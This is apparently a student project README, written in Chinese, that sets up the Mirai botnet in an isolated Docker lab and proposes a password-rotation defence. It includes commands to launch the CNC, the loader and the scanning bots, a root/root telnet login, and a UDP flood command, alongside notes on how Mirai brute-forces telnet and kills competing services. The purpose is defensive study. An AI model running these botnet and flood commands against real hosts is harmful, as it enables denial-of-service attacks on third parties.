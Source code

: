 # Docker Setup
## 建立給Docker的網路
    docker network create --subnet=172.20.0.0/16 botnet 
## CNC （控制病毒的Server)
    sudo docker run --net botnet --ip 172.20.0.2 -it cnc
![CNC](cnc.png)
## Loader (負責將病毒注入)
    sudo docker run --net botnet --ip 172.20.0.4 -i -t loader 
    ./init.sh
![Loader](loader.png)
## 感染源
    sudo docker run --net botnet -i -t bot 
    ./init.sh 0/1  # 1 for scanner 

# 如何攻擊
## 連線到CNC 
    telnet "IP" 
    ＃username/password : root 
## Attack(udp)
    udpplain targetIP 5 dport=UDPport
# Mirai觀察結果
由於Mirai是由多種語言寫成，且為了防止被破解，在多處採用隱晦的寫法撰寫，導致原始碼讀取不易。所以我們採用打開Debug模式觀察病毒的運行。
## 感染源
如果有打開Scanner模式，病毒便會掃描網路中的裝置是否開啟telnet port (23)，一但發現便會用簡單密碼字典暴力破解。
## 成功感染
密碼破解後，病毒會向Loader傳送裝置資訊以注入病毒。 \
受感染後，會掃描是否有其他病毒並將其清除(600秒一次)
## 其他
在看過網路上資安專家的原始碼分析後，還有發現裝置感染後病毒會馬上消滅任何使用port 22,23,80(ssh,telnet,http)的process
# 遭遇的問題
## 計畫書構想
當初解決方案是發現病毒後，由於病毒只在RAM，遠端reboot就可以將其清除，但由於ssh telnet http都被關閉，這使遠端控制幾乎不可能
## 消滅方法
目前有人反制mirai的方式是利用他處理http redirect的漏洞，如果server redirect一個空的Location給他，他便會在字串處理中buffer overflow，導致整個病毒crash，但這僅限執行http flood攻擊時且為server端的反制方法
# 新方案 
## 預防
由於受感染後裝置無法遠端控制，預防勝於治療，在一定時間後，由主控端將管理的裝置密碼更改成新的複雜密碼
## 優點
Mirai的變種大多數還是使用字典攻擊，複雜密碼可以預防被破解，定期更換可以反制線上更新字典的變種Mirai \
通用性高
## 問題討論
### 產生密碼
需要找出好方法產生“隨機”且安全的密碼 避免重複 \
### 密碼保存
明碼儲存可能有資安問題
### 通訊安全
由於大多數iot裝置無法使用太多複雜功能，ssh在某些裝置可能無法使用，telnet還是佔大多數(不安全?)

